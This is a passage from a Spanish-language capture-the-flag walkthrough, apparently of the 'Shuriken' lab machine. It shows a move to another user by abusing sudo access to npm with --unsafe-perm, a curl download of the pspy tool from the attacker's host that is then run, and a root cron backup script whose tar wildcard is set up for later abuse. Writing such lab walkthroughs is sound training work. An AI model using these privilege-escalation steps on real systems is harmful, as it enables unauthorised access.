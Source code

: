 ```bash
$chmod 777 /tmp/tmp.qx2ih7BUEK
```

- Y por último ejecutamos como el usuario "server-management" el binario npm:

```bash
$sudo -u server-management npm -C $TF --unsafe-perm i
```

- Habremos pivotado al usuario `"server-management"`.

- Ejecutamos el binario de [pspy](https://github.com/DominicBreuker/pspy/releases) para escanear procesos que se ejecuten en segundo plano de forma automática y después de unos minutos vemos lo siguiente:

### Nota: Al no funcionar wget usamos curl para transferir el binario de pspy:

```bash
$curl "192.168.1.35/pspy64" -o pspy64
$chmod +x pspy64
$./pspy64
```


```js
2023/03/14 17:34:01 CMD: UID=0     PID=2068   | /bin/sh -c /var/opt/backupsrv.sh 
2023/03/14 17:34:01 CMD: UID=0     PID=2067   | /usr/sbin/CRON -f 
2023/03/14 17:34:01 CMD: UID=0     PID=2072   | date 
2023/03/14 17:34:01 CMD: UID=0     PID=2073   | tar czf /var/backups/shuriken-Tuesday.tgz Daily Job Progress Report Format.pdf Employee Search Progress Report.pdf 
2023/03/14 17:34:01 CMD: UID=0     PID=2076   | /bin/bash /var/opt/backupsrv.sh 
2023/03/14 17:34:01 CMD: UID=0     PID=2077   | ls -lh /var/backups 
```

- Se está ejecutando una script en bash como root cada cierto tiempo; la analizamos para ver en qué consiste:

```bash
$cat /var/opt/backupsrv.sh
```

```bash
#!/bin/bash

# Where to backup to.
dest="/var/backups"

# What to backup. 
cd /home/server-management/Documents
backup_files="*"

# Create archive filename.
day=$(date +%A)
hostname=$(hostname -s)
archive_file="$hostname-$day.tgz"

# Print start status message.
echo "Backing up $backup_files to $dest/$archive_file"
date
echo

# Backup the files using tar.
tar czf $dest/$archive_file $backup_files

# Print end status message.
echo
echo "Backup finished"
date
```